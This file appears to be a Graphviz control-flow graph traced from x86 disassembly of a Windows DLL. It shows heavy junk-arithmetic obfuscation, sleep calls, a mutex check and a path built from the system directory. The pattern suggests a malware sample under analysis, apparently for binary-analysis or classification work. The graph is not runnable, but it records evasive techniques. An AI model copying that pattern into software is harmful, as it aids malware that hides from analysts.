a0x100011b6popl_edi[label="0x100011b6\npopl %edi"];
a0x100011b7popl_esi[label="0x100011b7\npopl %esi"];
a0x100011b8popl_ebx[label="0x100011b8\npopl %ebx"];
a0x100011b9leave_[label="0x100011b9\nleave "];
a0x100011baret_0xcUINT16[label="0x100011ba\nret $0xc<UINT16>"];
a0x7c8000c0nop_[label="0x7c8000c0\nnop "];
a0x7c8000c1call_0x63d7f9f4[label="0x7c8000c1\ncall 0x63d7f9f4"];
a0x63d7f9f4addb_al_eax_[label="0x63d7f9f4\naddb %al, (%eax)"];
a0x63d7f9f6addb_al_eax_[label="0x63d7f9f6\naddb %al, (%eax)"];
a0x63d7f9f8addb_al_eax_[label="0x63d7f9f8\naddb %al, (%eax)"];
a0x63d7f9faaddb_al_eax_[label="0x63d7f9fa\naddb %al, (%eax)"];
a0x63d7f9fcaddb_al_eax_[label="0x63d7f9fc\naddb %al, (%eax)"];
a0x63d7f9feaddb_al_eax_[label="0x63d7f9fe\naddb %al, (%eax)"];
a0x63d7fa00addb_al_eax_[label="0x63d7fa00\naddb %al, (%eax)"];
a0x63d7fa02addb_al_eax_[label="0x63d7fa02\naddb %al, (%eax)"];
a0x63d7fa04addb_al_eax_[label="0x63d7fa04\naddb %al, (%eax)"];
a0x63d7fa06addb_al_eax_[label="0x63d7fa06\naddb %al, (%eax)"];
a0x63d7fa08addb_al_eax_[label="0x63d7fa08\naddb %al, (%eax)"];
a0x63d7fa0aaddb_al_eax_[label="0x63d7fa0a\naddb %al, (%eax)"];
a0x63d7fa0caddb_al_eax_[label="0x63d7fa0c\naddb %al, (%eax)"];
a0x63d7fa0eaddb_al_eax_[label="0x63d7fa0e\naddb %al, (%eax)"];
a0x63d7fa10addb_al_eax_[label="0x63d7fa10\naddb %al, (%eax)"];
a0x63d7fa12addb_al_eax_[label="0x63d7fa12\naddb %al, (%eax)"];
a0x63d7fa14addb_al_eax_[label="0x63d7fa14\naddb %al, (%eax)"];
a0x63d7fa16addb_al_eax_[label="0x63d7fa16\naddb %al, (%eax)"];
a0x63d7fa18addb_al_eax_[label="0x63d7fa18\naddb %al, (%eax)"];
a0x63d7fa1aaddb_al_eax_[label="0x63d7fa1a\naddb %al, (%eax)"];
a0x63d7fa1caddb_al_eax_[label="0x63d7fa1c\naddb %al, (%eax)"];
a0x63d7fa1eaddb_al_eax_[label="0x63d7fa1e\naddb %al, (%eax)"];
a0x63d7fa20addb_al_eax_[label="0x63d7fa20\naddb %al, (%eax)"];
a0x63d7fa22addb_al_eax_[label="0x63d7fa22\naddb %al, (%eax)"];
a0x63d7fa24addb_al_eax_[label="0x63d7fa24\naddb %al, (%eax)"];
a0x63d7fa26addb_al_eax_[label="0x63d7fa26\naddb %al, (%eax)"];
a0x63d7fa28addb_al_eax_[label="0x63d7fa28\naddb %al, (%eax)"];
a0x63d7fa2aaddb_al_eax_[label="0x63d7fa2a\naddb %al, (%eax)"];
a0x63d7fa2caddb_al_eax_[label="0x63d7fa2c\naddb %al, (%eax)"];
a0x63d7fa2eaddb_al_eax_[label="0x63d7fa2e\naddb %al, (%eax)"];
a0x63d7fa30addb_al_eax_[label="0x63d7fa30\naddb %al, (%eax)"];
a0x63d7fa32addb_al_eax_[label="0x63d7fa32\naddb %al, (%eax)"];
a0x63d7fa34addb_al_eax_[label="0x63d7fa34\naddb %al, (%eax)"];
a0x63d7fa36addb_al_eax_[label="0x63d7fa36\naddb %al, (%eax)"];
a0x63d7fa38addb_al_eax_[label="0x63d7fa38\naddb %al, (%eax)"];
a0x63d7fa3aaddb_al_eax_[label="0x63d7fa3a\naddb %al, (%eax)"];
a0x63d7fa3caddb_al_eax_[label="0x63d7fa3c\naddb %al, (%eax)"];
a0x63d7fa3eaddb_al_eax_[label="0x63d7fa3e\naddb %al, (%eax)"];
a0x63d7fa40addb_al_eax_[label="0x63d7fa40\naddb %al, (%eax)"];
a0x63d7fa42addb_al_eax_[label="0x63d7fa42\naddb %al, (%eax)"];
a0x63d7fa44addb_al_eax_[label="0x63d7fa44\naddb %al, (%eax)"];
a0x63d7fa46addb_al_eax_[label="0x63d7fa46\naddb %al, (%eax)"];
a0x63d7fa48addb_al_eax_[label="0x63d7fa48\naddb %al, (%eax)"];
a0x63d7fa4aaddb_al_eax_[label="0x63d7fa4a\naddb %al, (%eax)"];
a0x63d7fa4caddb_al_eax_[label="0x63d7fa4c\naddb %al, (%eax)"];
a0x63d7fa4eaddb_al_eax_[label="0x63d7fa4e\naddb %al, (%eax)"];
a0x63d7fa50addb_al_eax_[label="0x63d7fa50\naddb %al, (%eax)"];
a0x63d7fa52addb_al_eax_[label="0x63d7fa52\naddb %al, (%eax)"];
a0x63d7fa54addb_al_eax_[label="0x63d7fa54\naddb %al, (%eax)"];
a0x63d7fa56addb_al_eax_[label="0x63d7fa56\naddb %al, (%eax)"];
a0x63d7fa58addb_al_eax_[label="0x63d7fa58\naddb %al, (%eax)"];
a0x63d7fa5aaddb_al_eax_[label="0x63d7fa5a\naddb %al, (%eax)"];
a0x10001190pushl_ebp -> a0x10001191movl_esp_ebp [color="#000000"];
a0x10001191movl_esp_ebp -> a0x10001193pushl_ebx [color="#000000"];
a0x10001193pushl_ebx -> a0x10001194pushl_esi [color="#000000"];
a0x10001194pushl_esi -> a0x10001195pushl_edi [color="#000000"];
a0x10001195pushl_edi -> a0x10001196cmpl_0x1UINT8_0xcebp_ [color="#000000"];
a0x10001196cmpl_0x1UINT8_0xcebp_ -> a0x1000119ajne_0x100011a1 [color="#000000"];
a0x1000119ajne_0x100011a1 -> a0x100011a1call_0x1000185b [color="#000000",label="T"];
a0x100011a1call_0x1000185b -> a0x1000185bpushl_eax [color="#000000"];
a0x1000185bpushl_eax -> a0x1000185cfnstcw_esp_ [color="#000000"];
a0x1000185cfnstcw_esp_ -> a0x1000185fmovl_esp__eax [color="#000000"];
a0x1000185fmovl_esp__eax -> a0x10001862orw_0x300UINT16_esp_ [color="#000000"];
a0x10001862orw_0x300UINT16_esp_ -> a0x10001868jmp_0x1000184a [color="#000000"];
a0x10001868jmp_0x1000184a -> a0x1000184afldcw_esp_ [color="#000000"];
a0x1000184afldcw_esp_ -> a0x1000184dpopl_ecx [color="#000000"];
a0x1000184dpopl_ecx -> a0x1000184emovb_ah_al [color="#000000"];
a0x1000184emovb_ah_al -> a0x10001850andl_0x3UINT8_eax [color="#000000"];
a0x10001850andl_0x3UINT8_eax -> a0x10001853ret [color="#000000"];
a0x10001853ret -> a0x100011a6pushl_0x10ebp_ [color="#000000"];
a0x100011a6pushl_0x10ebp_ -> a0x100011a9pushl_0xcebp_ [color="#000000"];
a0x100011a9pushl_0xcebp_ -> a0x100011acpushl_0x8ebp_ [color="#000000"];
a0x100011acpushl_0x8ebp_ -> a0x100011afmovl_0x10003000_eax [color="#000000"];
a0x100011afmovl_0x10003000_eax -> a0x100011b4call_eax [color="#000000"];
a0x100011b4call_eax -> a0x10001348pushl_ebp [color="#000000"];
a0x10001348pushl_ebp -> a0x10001349movl_esp_ebp [color="#000000"];
a0x10001349movl_esp_ebp -> a0x1000134bsubl_0x198UINT32_esp [color="#000000"];
a0x1000134bsubl_0x198UINT32_esp -> a0x10001351pushl_ebx [color="#000000"];
a0x10001351pushl_ebx -> a0x10001352pushl_esi [color="#000000"];
a0x10001352pushl_esi -> a0x10001353pushl_edi [color="#000000"];
a0x10001353pushl_edi -> a0x10001354movl_0x712c00c9UINT32_ebx [color="#000000"];
a0x10001354movl_0x712c00c9UINT32_ebx -> a0x10001359subl_0x2afcUINT32_ebx [color="#000000"];
a0x10001359subl_0x2afcUINT32_ebx -> a0x1000135fsubl_0x14c9UINT32_ebx [color="#000000"];
a0x1000135fsubl_0x14c9UINT32_ebx -> a0x10001365movl_ebx_eax [color="#000000"];
a0x10001365movl_ebx_eax -> a0x10001367xorl_ebx_eax [color="#000000"];
a0x10001367xorl_ebx_eax -> a0x10001369movl_eax_ebx [color="#000000"];
a0x10001369movl_eax_ebx -> a0x1000136bsubl_0x1bf3UINT32_ebx [color="#000000"];
a0x1000136bsubl_0x1bf3UINT32_ebx -> a0x10001371subl_0x2b91UINT32_ebx [color="#000000"];
a0x10001371subl_0x2b91UINT32_ebx -> a0x10001377movl_ebx_eax [color="#000000"];
a0x10001377movl_ebx_eax -> a0x10001379subl_ebx_eax [color="#000000"];
a0x10001379subl_ebx_eax -> a0x1000137bmovl_eax_ebx [color="#000000"];
a0x1000137bmovl_eax_ebx -> a0x1000137dpushl_0xeUINT8 [color="#000000"];
a0x1000137dpushl_0xeUINT8 -> a0x1000137fcall_0x100018e4 [color="#000000"];
a0x1000137fcall_0x100018e4 -> a0x100018e4jmp__sleep_crtdll_dll [color="#000000"];
a0x100018e4jmp__sleep_crtdll_dll -> a_sleep_crtdll_dll [color="#000000"];
a_sleep_crtdll_dll -> a0x10001384addl_0x7abfUINT32_ebx [color="#000000"];
a0x10001384addl_0x7abfUINT32_ebx -> a0x1000138acall_0x10001878 [color="#000000"];
a0x1000138acall_0x10001878 -> a0x10001878jmp_GetCurrentProcessId_kernel32_dll [color="#000000"];
a0x10001878jmp_GetCurrentProcessId_kernel32_dll -> GetCurrentProcessId_kernel32_dll [color="#000000"];
GetCurrentProcessId_kernel32_dll -> a0x1000138fpushl_0xeUINT8 [color="#000000"];
a0x1000138fpushl_0xeUINT8 -> a0x10001391call_0x100018e4 [color="#000000"];
a0x10001391call_0x100018e4 -> a0x100018e4jmp__sleep_crtdll_dll [color="#000000"];
a_sleep_crtdll_dll -> a0x10001396xorl_0x5a8fUINT32_ebx [color="#000000"];
a0x10001396xorl_0x5a8fUINT32_ebx -> a0x1000139cmovl_ebx_eax [color="#000000"];
a0x1000139cmovl_ebx_eax -> a0x1000139esubl_ebx_eax [color="#000000"];
a0x1000139esubl_ebx_eax -> a0x100013a0movl_eax_ebx [color="#000000"];
a0x100013a0movl_eax_ebx -> a0x100013a2addl_0x77ffUINT32_ebx [color="#000000"];
a0x100013a2addl_0x77ffUINT32_ebx -> a0x100013a8subl_0x2d9dUINT32_ebx [color="#000000"];
a0x100013a8subl_0x2d9dUINT32_ebx -> a0x100013aesubl_0x5e39UINT32_ebx [color="#000000"];
a0x100013aesubl_0x5e39UINT32_ebx -> a0x100013b4movl_ebx_eax [color="#000000"];
a0x100013b4movl_ebx_eax -> a0x100013b6mull_ebx_eax [color="#000000"];
a0x100013b6mull_ebx_eax -> a0x100013b8movl_eax__280ebp_ [color="#000000"];
a0x100013b8movl_eax__280ebp_ -> a0x100013bemovl_eax_ebx [color="#000000"];
a0x100013bemovl_eax_ebx -> a0x100013c0pushl_0xaUINT8 [color="#000000"];
a0x100013c0pushl_0xaUINT8 -> a0x100013c2call_0x100018e4 [color="#000000"];
a0x100013c2call_0x100018e4 -> a0x100018e4jmp__sleep_crtdll_dll [color="#000000"];
a_sleep_crtdll_dll -> a0x100013c7pushl_0x1f4UINT32 [color="#000000"];
a0x100013c7pushl_0x1f4UINT32 -> a0x100013cccall_0x10001938 [color="#000000"];
a0x100013cccall_0x10001938 -> a0x10001938jmp_srand_crtdll_dll [color="#000000"];
a0x10001938jmp_srand_crtdll_dll -> srand_crtdll_dll [color="#000000"];
srand_crtdll_dll -> a0x100013d1addl_0x10UINT8_esp [color="#000000"];
a0x100013d1addl_0x10UINT8_esp -> a0x100013d4xorl_0x6b74UINT32_ebx [color="#000000"];
a0x100013d4xorl_0x6b74UINT32_ebx -> a0x100013damovl_ebx_eax [color="#000000"];
a0x100013damovl_ebx_eax -> a0x100013dcxorl_ebx_eax [color="#000000"];
a0x100013dcxorl_ebx_eax -> a0x100013demovl_eax_ebx [color="#000000"];
a0x100013demovl_eax_ebx -> a0x100013e0xorl_0x6150UINT32_ebx [color="#000000"];
a0x100013e0xorl_0x6150UINT32_ebx -> a0x100013e6movl_ebx_eax [color="#000000"];
a0x100013e6movl_ebx_eax -> a0x100013e8subl_ebx_eax [color="#000000"];
a0x100013e8subl_ebx_eax -> a0x100013eamovl_eax_ebx [color="#000000"];
a0x100013eamovl_eax_ebx -> a0x100013ecxorl_ebx_eax [color="#000000"];
a0x100013ecxorl_ebx_eax -> a0x100013eemovl_eax_ebx [color="#000000"];
a0x100013eemovl_eax_ebx -> a0x100013f0movl_0x7825UINT32_eax [color="#000000"];
a0x100013f0movl_0x7825UINT32_eax -> a0x100013f5mull_ebx_eax [color="#000000"];
a0x100013f5mull_ebx_eax -> a0x100013f7movl_eax__284ebp_ [color="#000000"];
a0x100013f7movl_eax__284ebp_ -> a0x100013fdmovl_eax_ebx [color="#000000"];
a0x100013fdmovl_eax_ebx -> a0x100013ffsubl_ebx_eax [color="#000000"];
a0x100013ffsubl_ebx_eax -> a0x10001401movl_eax_ebx [color="#000000"];
a0x10001401movl_eax_ebx -> a0x10001403addl_ebx_eax [color="#000000"];
a0x10001403addl_ebx_eax -> a0x10001405movl_eax_ebx [color="#000000"];
a0x10001405movl_eax_ebx -> a0x10001407xorl_0x22adUINT32_ebx [color="#000000"];
a0x10001407xorl_0x22adUINT32_ebx -> a0x1000140dsubl_0x13edUINT32_ebx [color="#000000"];
a0x1000140dsubl_0x13edUINT32_ebx -> a0x10001413movl_ebx_eax [color="#000000"];
a0x10001413movl_ebx_eax -> a0x10001415mull_ebx_eax [color="#000000"];
a0x10001415mull_ebx_eax -> a0x10001417movl_eax__288ebp_ [color="#000000"];
a0x10001417movl_eax__288ebp_ -> a0x1000141dmovl_eax_ebx [color="#000000"];
a0x1000141dmovl_eax_ebx -> a0x1000141fsubl_0x105bUINT32_ebx [color="#000000"];
a0x1000141fsubl_0x105bUINT32_ebx -> a0x10001425movl_0x7ecbUINT32_eax [color="#000000"];
a0x10001425movl_0x7ecbUINT32_eax -> a0x1000142amull_ebx_eax [color="#000000"];
a0x1000142amull_ebx_eax -> a0x1000142cmovl_eax__292ebp_ [color="#000000"];
a0x1000142cmovl_eax__292ebp_ -> a0x10001432movl_eax_ebx [color="#000000"];
a0x10001432movl_eax_ebx -> a0x10001434mull_ebx_eax [color="#000000"];
a0x10001434mull_ebx_eax -> a0x10001436movl_eax__296ebp_ [color="#000000"];
a0x10001436movl_eax__296ebp_ -> a0x1000143cmovl_eax_ebx [color="#000000"];
a0x1000143cmovl_eax_ebx -> a0x1000143exorl_ebx_eax [color="#000000"];
a0x1000143exorl_ebx_eax -> a0x10001440movl_eax_ebx [color="#000000"];
a0x10001440movl_eax_ebx -> a0x10001442addl_ebx_eax [color="#000000"];
a0x10001442addl_ebx_eax -> a0x10001444movl_eax_ebx [color="#000000"];
a0x10001444movl_eax_ebx -> a0x10001446subl_0x2691UINT32_ebx [color="#000000"];
a0x10001446subl_0x2691UINT32_ebx -> a0x1000144cmovl_ebx_eax [color="#000000"];
a0x1000144cmovl_ebx_eax -> a0x1000144emull_ebx_eax [color="#000000"];
a0x1000144emull_ebx_eax -> a0x10001450movl_eax__300ebp_ [color="#000000"];
a0x10001450movl_eax__300ebp_ -> a0x10001456movl_eax_ebx [color="#000000"];
a0x10001456movl_eax_ebx -> a0x10001458xorl_ebx_eax [color="#000000"];
a0x10001458xorl_ebx_eax -> a0x1000145amovl_eax_ebx [color="#000000"];
a0x1000145amovl_eax_ebx -> a0x1000145cpushl_0x100030a2UINT32 [color="#000000"];
a0x1000145cpushl_0x100030a2UINT32 -> a0x10001461pushl_0x0UINT8 [color="#000000"];
a0x10001461pushl_0x0UINT8 -> a0x10001463pushl_0x1f0001UINT32 [color="#000000"];
a0x10001463pushl_0x1f0001UINT32 -> a0x10001468call_0x100018a8 [color="#000000"];
a0x10001468call_0x100018a8 -> a0x100018a8jmp_OpenMutexA_kernel32_dll [color="#000000"];
a0x100018a8jmp_OpenMutexA_kernel32_dll -> OpenMutexA_kernel32_dll [color="#000000"];
OpenMutexA_kernel32_dll -> a0x1000146dmovl_eax__276ebp_ [color="#000000"];
a0x1000146dmovl_eax__276ebp_ -> a0x10001473orl_eax_eax [color="#000000"];
a0x10001473orl_eax_eax -> a0x10001475je_0x10001568 [color="#000000"];
a0x10001475je_0x10001568 -> a0x10001568movl_ebx_eax [color="#000000",label="T"];
a0x10001568movl_ebx_eax -> a0x1000156asubl_ebx_eax [color="#000000"];
a0x1000156asubl_ebx_eax -> a0x1000156cmovl_eax_ebx [color="#000000"];
a0x1000156cmovl_eax_ebx -> a0x1000156eaddl_0x518aUINT32_ebx [color="#000000"];
a0x1000156eaddl_0x518aUINT32_ebx -> a0x10001574subl_0x736dUINT32_ebx [color="#000000"];
a0x10001574subl_0x736dUINT32_ebx -> a0x1000157asubl_0x42cUINT32_ebx [color="#000000"];
a0x1000157asubl_0x42cUINT32_ebx -> a0x10001580movl_0xec4UINT32_eax [color="#000000"];
a0x10001580movl_0xec4UINT32_eax -> a0x10001585mull_ebx_eax [color="#000000"];
a0x10001585mull_ebx_eax -> a0x10001587movl_eax__304ebp_ [color="#000000"];
a0x10001587movl_eax__304ebp_ -> a0x1000158dmovl_eax_ebx [color="#000000"];
a0x1000158dmovl_eax_ebx -> a0x1000158faddl_ebx_eax [color="#000000"];
a0x1000158faddl_ebx_eax -> a0x10001591movl_eax_ebx [color="#000000"];
a0x10001591movl_eax_ebx -> a0x10001593movl_0x4385UINT32_eax [color="#000000"];
a0x10001593movl_0x4385UINT32_eax -> a0x10001598mull_ebx_eax [color="#000000"];
a0x10001598mull_ebx_eax -> a0x1000159amovl_eax__308ebp_ [color="#000000"];
a0x1000159amovl_eax__308ebp_ -> a0x100015a0movl_eax_ebx [color="#000000"];
a0x100015a0movl_eax_ebx -> a0x100015a2xorl_ebx_eax [color="#000000"];
a0x100015a2xorl_ebx_eax -> a0x100015a4movl_eax_ebx [color="#000000"];
a0x100015a4movl_eax_ebx -> a0x100015a6addl_ebx_eax [color="#000000"];
a0x100015a6addl_ebx_eax -> a0x100015a8movl_eax_ebx [color="#000000"];
a0x100015a8movl_eax_ebx -> a0x100015aamovl_0x6bbfUINT32_eax [color="#000000"];
a0x100015aamovl_0x6bbfUINT32_eax -> a0x100015afmull_ebx_eax [color="#000000"];
a0x100015afmull_ebx_eax -> a0x100015b1movl_eax__312ebp_ [color="#000000"];
a0x100015b1movl_eax__312ebp_ -> a0x100015b7movl_eax_ebx [color="#000000"];
a0x100015b7movl_eax_ebx -> a0x100015b9movl_0x6280UINT32_eax [color="#000000"];
a0x100015b9movl_0x6280UINT32_eax -> a0x100015bemull_ebx_eax [color="#000000"];
a0x100015bemull_ebx_eax -> a0x100015c0movl_eax__316ebp_ [color="#000000"];
a0x100015c0movl_eax__316ebp_ -> a0x100015c6movl_eax_ebx [color="#000000"];
a0x100015c6movl_eax_ebx -> a0x100015c8mull_ebx_eax [color="#000000"];
a0x100015c8mull_ebx_eax -> a0x100015camovl_eax__320ebp_ [color="#000000"];
a0x100015camovl_eax__320ebp_ -> a0x100015d0movl_eax_ebx [color="#000000"];
a0x100015d0movl_eax_ebx -> a0x100015d2addl_0x6f8eUINT32_ebx [color="#000000"];
a0x100015d2addl_0x6f8eUINT32_ebx -> a0x100015d8xorl_0xe95UINT32_ebx [color="#000000"];
a0x100015d8xorl_0xe95UINT32_ebx -> a0x100015deaddl_0x6186UINT32_ebx [color="#000000"];
a0x100015deaddl_0x6186UINT32_ebx -> a0x100015e4leal__271ebp__edi [color="#000000"];
a0x100015e4leal__271ebp__edi -> a0x100015ealeal_0x10003090_esi [color="#000000"];
a0x100015ealeal_0x10003090_esi -> a0x100015f0movl_0x4UINT32_ecx [color="#000000"];
a0x100015f0movl_0x4UINT32_ecx -> a0x100015f5repz_movsl_ds_esi__es_edi_ [color="#000000"];
a0x100015f5repz_movsl_ds_esi__es_edi_ -> a0x100015f7movl_ebx_eax [color="#000000"];
a0x100015f7movl_ebx_eax -> a0x100015f9mull_ebx_eax [color="#000000"];
a0x100015f9mull_ebx_eax -> a0x100015fbmovl_eax__324ebp_ [color="#000000"];
a0x100015fbmovl_eax__324ebp_ -> a0x10001601movl_eax_ebx [color="#000000"];
a0x10001601movl_eax_ebx -> a0x10001603subl_ebx_eax [color="#000000"];
a0x10001603subl_ebx_eax -> a0x10001605movl_eax_ebx [color="#000000"];
a0x10001605movl_eax_ebx -> a0x10001607subl_0x6eabUINT32_ebx [color="#000000"];
a0x10001607subl_0x6eabUINT32_ebx -> a0x1000160daddl_0x7559UINT32_ebx [color="#000000"];
a0x1000160daddl_0x7559UINT32_ebx -> a0x10001613movl_ebx_eax [color="#000000"];
a0x10001613movl_ebx_eax -> a0x10001615mull_ebx_eax [color="#000000"];
a0x10001615mull_ebx_eax -> a0x10001617movl_eax__328ebp_ [color="#000000"];
a0x10001617movl_eax__328ebp_ -> a0x1000161dmovl_eax_ebx [color="#000000"];
a0x1000161dmovl_eax_ebx -> a0x1000161fmovl_0x34a2UINT32_eax [color="#000000"];
a0x1000161fmovl_0x34a2UINT32_eax -> a0x10001624mull_ebx_eax [color="#000000"];
a0x10001624mull_ebx_eax -> a0x10001626movl_eax__332ebp_ [color="#000000"];
a0x10001626movl_eax__332ebp_ -> a0x1000162cmovl_eax_ebx [color="#000000"];
a0x1000162cmovl_eax_ebx -> a0x1000162exorl_0x6602UINT32_ebx [color="#000000"];
a0x1000162exorl_0x6602UINT32_ebx -> a0x10001634movl_ebx_eax [color="#000000"];
a0x10001634movl_ebx_eax -> a0x10001636mull_ebx_eax [color="#000000"];
a0x10001636mull_ebx_eax -> a0x10001638movl_eax__336ebp_ [color="#000000"];
a0x10001638movl_eax__336ebp_ -> a0x1000163emovl_eax_ebx [color="#000000"];
a0x1000163emovl_eax_ebx -> a0x10001640mull_ebx_eax [color="#000000"];
a0x10001640mull_ebx_eax -> a0x10001642movl_eax__340ebp_ [color="#000000"];
a0x10001642movl_eax__340ebp_ -> a0x10001648movl_eax_ebx [color="#000000"];
a0x10001648movl_eax_ebx -> a0x1000164amull_ebx_eax [color="#000000"];
a0x1000164amull_ebx_eax -> a0x1000164cmovl_eax__344ebp_ [color="#000000"];
a0x1000164cmovl_eax__344ebp_ -> a0x10001652movl_eax_ebx [color="#000000"];
a0x10001652movl_eax_ebx -> a0x10001654xorl_ebx_eax [color="#000000"];
a0x10001654xorl_ebx_eax -> a0x10001656movl_eax_ebx [color="#000000"];
a0x10001656movl_eax_ebx -> a0x10001658addl_ebx_eax [color="#000000"];
a0x10001658addl_ebx_eax -> a0x1000165amovl_eax_ebx [color="#000000"];
a0x1000165amovl_eax_ebx -> a0x1000165cmull_ebx_eax [color="#000000"];
a0x1000165cmull_ebx_eax -> a0x1000165emovl_eax__348ebp_ [color="#000000"];
a0x1000165emovl_eax__348ebp_ -> a0x10001664movl_eax_ebx [color="#000000"];
a0x10001664movl_eax_ebx -> a0x10001666mull_ebx_eax [color="#000000"];
a0x10001666mull_ebx_eax -> a0x10001668movl_eax__352ebp_ [color="#000000"];
a0x10001668movl_eax__352ebp_ -> a0x1000166emovl_eax_ebx [color="#000000"];
a0x1000166emovl_eax_ebx -> a0x10001670addl_ebx_eax [color="#000000"];
a0x10001670addl_ebx_eax -> a0x10001672movl_eax_ebx [color="#000000"];
a0x10001672movl_eax_ebx -> a0x10001674pushl_0xffUINT32 [color="#000000"];
a0x10001674pushl_0xffUINT32 -> a0x10001679leal__255ebp__eax [color="#000000"];
a0x10001679leal__255ebp__eax -> a0x1000167fpushl_eax [color="#000000"];
a0x1000167fpushl_eax -> a0x10001680call_0x1000189c [color="#000000"];
a0x10001680call_0x1000189c -> a0x1000189cjmp_GetSystemDirectoryA_kernel32_dll [color="#000000"];
a0x1000189cjmp_GetSystemDirectoryA_kernel32_dll -> GetSystemDirectoryA_kernel32_dll [color="#000000"];
GetSystemDirectoryA_kernel32_dll -> a0x10001685movl_ebx_eax [color="#000000"];
a0x10001685movl_ebx_eax -> a0x10001687mull_ebx_eax [color="#000000"];
a0x10001687mull_ebx_eax -> a0x10001689movl_eax__356ebp_ [color="#000000"];
a0x10001689movl_eax__356ebp_ -> a0x1000168fmovl_eax_ebx [color="#000000"];
a0x1000168fmovl_eax_ebx -> a0x10001691addl_ebx_eax [color="#000000"];
a0x10001691addl_ebx_eax -> a0x10001693movl_eax_ebx [color="#000000"];
a0x10001693movl_eax_ebx -> a0x10001695mull_ebx_eax [color="#000000"];
a0x10001695mull_ebx_eax -> a0x10001697movl_eax__360ebp_ [color="#000000"];
a0x10001697movl_eax__360ebp_ -> a0x1000169dmovl_eax_ebx [color="#000000"];
a0x1000169dmovl_eax_ebx -> a0x1000169fsubl_ebx_eax [color="#000000"];
a0x1000169fsubl_ebx_eax -> a0x100016a1movl_eax_ebx [color="#000000"];
a0x100016a1movl_eax_ebx -> a0x100016a3xorl_0x4b37UINT32_ebx [color="#000000"];
a0x100016a3xorl_0x4b37UINT32_ebx -> a0x100016a9xorl_0x6ac4UINT32_ebx [color="#000000"];
a0x100016a9xorl_0x6ac4UINT32_ebx -> a0x100016afmovl_ebx_eax [color="#000000"];
a0x100016afmovl_ebx_eax -> a0x100016b1subl_ebx_eax [color="#000000"];
a0x100016b1subl_ebx_eax -> a0x100016b3movl_eax_ebx [color="#000000"];
a0x100016b3movl_eax_ebx -> a0x100016b5addl_ebx_eax [color="#000000"];
a0x100016b5addl_ebx_eax -> a0x100016b7movl_eax_ebx [color="#000000"];
a0x100016b7movl_eax_ebx -> a0x100016b9mull_ebx_eax [color="#000000"];
a0x100016b9mull_ebx_eax -> a0x100016bbmovl_eax__364ebp_ [color="#000000"];
a0x100016bbmovl_eax__364ebp_ -> a0x100016c1movl_eax_ebx [color="#000000"];
a0x100016c1movl_eax_ebx -> a0x100016c3subl_0x7527UINT32_ebx [color="#000000"];
a0x100016c3subl_0x7527UINT32_ebx -> a0x100016c9movl_ebx_eax [color="#000000"];
a0x100016c9movl_ebx_eax -> a0x100016cbsubl_ebx_eax [color="#000000"];
a0x100016cbsubl_ebx_eax -> a0x100016cdmovl_eax_ebx [color="#000000"];
a0x100016cdmovl_eax_ebx -> a0x100016cfaddl_ebx_eax [color="#000000"];
a0x100016cfaddl_ebx_eax -> a0x100016d1movl_eax_ebx [color="#000000"];
a0x100016d1movl_eax_ebx -> a0x100016d3mull_ebx_eax [color="#000000"];
a0x100016d3mull_ebx_eax -> a0x100016d5movl_eax__368ebp_ [color="#000000"];
a0x100016d5movl_eax__368ebp_ -> a0x100016dbmovl_eax_ebx [color="#000000"];
a0x100016dbmovl_eax_ebx -> a0x100016ddsubl_ebx_eax [color="#000000"];
a0x100016ddsubl_ebx_eax -> a0x100016dfmovl_eax_ebx [color="#000000"];
a0x100016dfmovl_eax_ebx -> a0x100016e1movl_0x7b29UINT32_eax [color="#000000"];
a0x100016e1movl_0x7b29UINT32_eax -> a0x100016e6mull_ebx_eax [color="#000000"];
a0x100016e6mull_ebx_eax -> a0x100016e8movl_eax__372ebp_ [color="#000000"];
a0x100016e8movl_eax__372ebp_ -> a0x100016eemovl_eax_ebx [color="#000000"];
a0x100016eemovl_eax_ebx -> a0x100016f0addl_ebx_eax [color="#000000"];
a0x100016f0addl_ebx_eax -> a0x100016f2movl_eax_ebx [color="#000000"];
a0x100016f2movl_eax_ebx -> a0x100016f4xorl_0x3cd6UINT32_ebx [color="#000000"];
a0x100016f4xorl_0x3cd6UINT32_ebx -> a0x100016fasubl_0x6136UINT32_ebx [color="#000000"];
a0x100016fasubl_0x6136UINT32_ebx -> a0x10001700subl_0x3dabUINT32_ebx [color="#000000"];
a0x10001700subl_0x3dabUINT32_ebx -> a0x10001706pushl_0x100030a0UINT32 [color="#000000"];
a0x10001706pushl_0x100030a0UINT32 -> a0x1000170bleal__255ebp__eax [color="#000000"];
a0x1000170bleal__255ebp__eax -> a0x10001711pushl_eax [color="#000000"];
a0x10001711pushl_eax -> a0x10001712call_0x10001944 [color="#000000"];
a0x10001712call_0x10001944 -> a0x10001944jmp_strcat_crtdll_dll [color="#000000"];
a0x10001944jmp_strcat_crtdll_dll -> strcat_crtdll_dll [color="#000000"];
strcat_crtdll_dll -> a0x10001717subl_0x3ebaUINT32_ebx [color="#000000"];
a0x10001717subl_0x3ebaUINT32_ebx -> a0x1000171dmovl_ebx_eax [color="#000000"];
a0x1000171dmovl_ebx_eax -> a0x1000171fxorl_ebx_eax [color="#000000"];
a0x1000171fxorl_ebx_eax -> a0x10001721movl_eax_ebx [color="#000000"];
a0x10001721movl_eax_ebx -> a0x10001723movl_0x41dbUINT32_eax [color="#000000"];
a0x10001723movl_0x41dbUINT32_eax -> a0x10001728mull_ebx_eax [color="#000000"];
a0x10001728mull_ebx_eax -> a0x1000172amovl_eax__376ebp_ [color="#000000"];
a0x1000172amovl_eax__376ebp_ -> a0x10001730movl_eax_ebx [color="#000000"];
a0x10001730movl_eax_ebx -> a0x10001732leal__271ebp__eax [color="#000000"];
a0x10001732leal__271ebp__eax -> a0x10001738pushl_eax [color="#000000"];
a0x10001738pushl_eax -> a0x10001739leal__255ebp__eax [color="#000000"];
a0x10001739leal__255ebp__eax -> a0x1000173fpushl_eax [color="#000000"];
a0x1000173fpushl_eax -> a0x10001740call_0x10001944 [color="#000000"];
a0x10001740call_0x10001944 -> a0x10001944jmp_strcat_crtdll_dll [color="#000000"];
strcat_crtdll_dll -> a0x10001745addl_0x10UINT8_esp [color="#000000"];
a0x10001745addl_0x10UINT8_esp -> a0x10001748subl_0x63fdUINT32_ebx [color="#000000"];
a0x10001748subl_0x63fdUINT32_ebx -> a0x1000174exorl_0x392dUINT32_ebx [color="#000000"];
a0x1000174exorl_0x392dUINT32_ebx -> a0x10001754movl_ebx_eax [color="#000000"];
a0x10001754movl_ebx_eax -> a0x10001756subl_ebx_eax [color="#000000"];
a0x10001756subl_ebx_eax -> a0x10001758movl_eax_ebx [color="#000000"];
